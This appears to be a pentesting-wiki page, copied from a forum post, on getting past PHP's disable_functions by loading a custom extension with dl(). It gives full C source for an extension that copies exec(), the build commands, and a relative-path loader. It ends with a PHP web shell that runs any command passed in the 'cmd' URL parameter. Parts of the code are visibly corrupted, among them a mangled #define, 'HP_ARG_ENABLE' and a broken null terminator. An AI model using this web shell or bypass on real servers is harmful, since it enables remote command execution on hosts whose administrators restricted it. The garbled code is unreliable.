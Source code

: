 disable_functions bypass - dl function

dl is a PHP function that can be used to load PHP extensions. It the function isn't disabled it could be abused to bypass disable_functions and execute arbitrary commands.
However, it has some strict limitations:

    The dl function must be present in the environment and not disabled

    The PHP Extension must be compiled with the same major version (PHP API version) that the server is using (you can see this information in the output of phpinfo)

    The PHP extension must be located in the directory that is defined by the extension_dir directive (you can see it in the output of phpinfo). It's very unprobeable that an attacker trying to abuse the server will have write access over this directory, so this requirement probably will prevent you to abuse this technique).

If you meet these requirements, continue reading this post copied from https://antichat.com/threads/70763/ to learn how to bypass disable_functions

When the admin was configuring the box he/she overlooked the dl function and didn't disable it since there was no mention of being able to execute system commands.
The dl function is used to loads PHP extensions when a script is executed.

(PHP extensions are written in C/C++ and are used to give PHP more functionality.)

The attacker notices the function isn't disabled and sees potential and decides to create a PHP extension.
The attacker checks the version of PHP using a small script<?php echo 'PHP Version is '.PHP_VERSION; ?> (PHP_VERSION is a predefined constant that contains the version number of PHP.)

The attacker notes the version and downloads the tarball from the PHP website, in this scenario the version is older than the current release so the attacker has to go to the archive.

Next he extracts the source and compiles and installs the version of PHP on his own box.

Now it's time to create the extension
The attacker reads up on creating PHP extensions from the PHP site.
After reading through the documentation and creating some extensions of his own he decides to look at the PHP code base since the function he's after is already created.

The function that will be duplicated will be the exec function
in the code base it's located in ext/standard/exec.c

The relevant parts are implemented into a new extension of its own.

The files for the separate extension end up as below:

bypass.c
/*
    +----------------------------------------------------------------------+
    | Copyright (c) 1997-2003 The PHP Group                                |
    +----------------------------------------------------------------------+
    | This source file is subject to version 2.02 of the PHP license,      |
    | that is bundled with this package in the file LICENSE, and is        |
    | available at through the world-wide-web at                           |
    | http://www.php.net/license/2_02.txt.                                 |
    | If you did not receive a copy of the PHP license and are unable to   |
    | obtain it through the world-wide-web, please send a note to          |
    | license@php.net so we can mail you a copy immediately.               |
    +----------------------------------------------------------------------+
*/
​
​
#ifdef HAVE_CONFIG_H
#include "config.h"
#endif
​
#include "php.h"
#include "php_bypass.h"
​
static function_entry bypass_functions[] = {
     PHP_FE(bypass_exec, NULL)
     {NULL, NULL, NULL}
};
​
zend_module_entry bypass_module_entry = {
#if ZEND_MODULE_API_NO >= 20010901
     STANDARD_MODULE_HEADER,
#endif
     PHP_BYPASS_EXTNAME,
     bypass_functions,
     NULL,
     NULL,
     NULL,
     NULL,
     NULL,
#if ZEND_MODULE_API_NO >= 20010901
     PHP_BYPASS_VERSION,
#endif
     STANDARD_MODULE_PROPERTIES
};
​
#ifdef COMPILE_DL_BYPASS
ZEND_GET_MODULE(bypass)
#endif
​
​
PHP_FUNCTION(bypass_exec){
   FILE *in;
   int readbytes, total_readbytes=0, allocated_space;
   pval **cmd;
   char *ret;
​
   if (ZEND_NUM_ARGS()!=1 || zend_get_parameters_ex(1, &cmd)==FAILURE) {
     WRONG_PARAM_COUNT;
   }
​
   convert_to_string_ex(cmd);
#ifdef PHP_WIN32
   if ((in=VCWD_POPEN(Z_STRVAL_PP(cmd), "rt"))==NULL) {
#else
   if ((in=VCWD_POPEN(Z_STRVAL_PP(cmd), "r"))==NULL) {
#endif
     php_error_docref(NULL TSRMLS_CC, E_WARNING, "Unable to execute '%s'", Z_STRVAL_PP(cmd));
     RETURN_FALSE;
   }
​
   allocated_space = EXEC_INPUT_BUF;
   ret = (char *) emalloc(allocated_space);
​
   while (1) {
     readbytes = fread(ret+total_readbytes, 1, EXEC_INPUT_BUF, in);
     if (readbytes<=0) {
       break;
     }
​
     total_readbytes += readbytes;
     allocated_space = total_readbytes+EXEC_INPUT_BUF;
     ret = (char *) erealloc(ret, allocated_space);
   }
​
   pclose(in);
​
   RETVAL_STRINGL(ret, total_readbytes, 0);
   Z_STRVAL_P(return_value)[total_readbytes] = '\';
}

php_bypass.h
#ifndef PHP_BYPASS_H
#define PHP_BYPASS_H 1
​
#define PHP_BYPASS_VERSION "1.0"
#define PHPphp_bypass.h_BYPASS_EXTNAME "bypass"
​
PHP_FUNCTION(bypass_exec);
​
extern zend_module_entry bypass_module_entry;
#define phpext_bypass_ptr &bypass_module_entry
​
#endif

config.m4
HP_ARG_ENABLE(bypass, whether to enable bypass support,
[ --enable-bypass   Enable bypass support])
​
if test "$PHP_BYPASS" = "yes"; then
   AC_DEFINE(HAVE_BYPASS, 1, [Whether you have bypass])
   PHP_NEW_EXTENSION(bypass, bypass.c, $ext_shared)
fi

Once the files are created it's time to build the PHP extension.

phpize
./configure
make

Once this is done the compiled extension will be located in the modules sub directory with the filename bypass.so.
The file is copied to a safe place, now the following commands are executed to clean up the newly created files.

make clean
phpize --clean

Now the attacker uploads the newly created extension to the victim host.

(NOTE: Major releases of PHP use different API versions, in order for you to be able to compile the extension on one host and upload it to another the API versions must match. This is why initially the same PHP version was installed on the attackers box. )

In order to load an extension with the dl function the extension needs to be in the the extension directory which is defined by the extension_dir directive.
This can be a problem since it's less likely for the attacker to have write permissions in this directory, there is however a way to get passed this.
This problem has been discussed by developers on the dl function page within the notes section.

The concept that was discussed is to use a relative path from the defined extension directory.
For example if the extension directory was set to /usr/php/extensions and you'd like to load bypass.so in the current web directory /home/example.com/html you would do as follows:

<?php
dl('../../../home/example.com/html/bypass.so');
?>

This will get passed the need to have the extension in the defined extension directory.

There is also an automated way so you won't have to change the relative path for different hosts, this code was created by endofyourself [at] yahoo [dot] com and improved apon later on by mag_2000 [at] front [dot] ru

There was one minor problem with the function, on some hosts the extension directory is set to "./" this function didn't take into account if the extension directory was set to a relative path, the fix for this is too use the realpath function.

The final script used to load the extension and execute system commands to bypass the disabled functions is as follows:

<?php
​
function dl_local( $extensionFile ) {
   if(!(bool)ini_get('enable_dl')
    ||(bool)ini_get('safe_mode')){
      die('Loading extensions is not permitted.');
   }
​
   if(!file_exists($extensionFile)){
     die('File '.$extensionFile.' does not exist.');
   }
​
   if(!is_executable($extensionFile)){
     die('File '.$extensionFile.' is not executable. ( chmod +x '.$extensionFile.' )');
   }
​
   $currentDir = getcwd().'/';
   $currentExtPath = realpath(ini_get('extension_dir'));
​
   $subDirs = preg_match_all("/\//",$currentExtPath ,$matches);
   unset($matches);
​
   if(!(bool)$subDirs){
     die('Could not determine a valid extension path [extension_dir]');
   }
​
   $extPathLastChar=strlen($currentExtPath )-1;
​
   if($extPathLastChar==strrpos($currentExtPath,'/')){
     $subDirs--;}$backDirStr = '';
​
     for($i = 1; $i <= $subDirs; $i++){
       $backDirStr .='..';
       if($i != $subDirs){
         $backDirStr .='/';
       }
     }
​
     $finalExtPath = $backDirStr.$currentDir.$extensionFile;
     if(!dl($finalExtPath)){
       die();
     }
​
​
     $loadedExtensions = get_loaded_extensions();
     $thisExtName = $loadedExtensions[sizeof($loadedExtensions)-1];
     return $thisExtName;
}
​
@ini_set ('display_errors','1');
error_reporting(E_ALL);
​
dl_local('bypass.so');
​
if(@$_GET['cmd']){
   $output = bypass_exec($_GET['cmd']);
   echo '<pre>'.$output.'</pre>';
}
?>

All the attacker has to do now to execute commands is call the URL to the script along with a cmd variable with the desired command.

http://www.example.com/script.php?cmd=ls
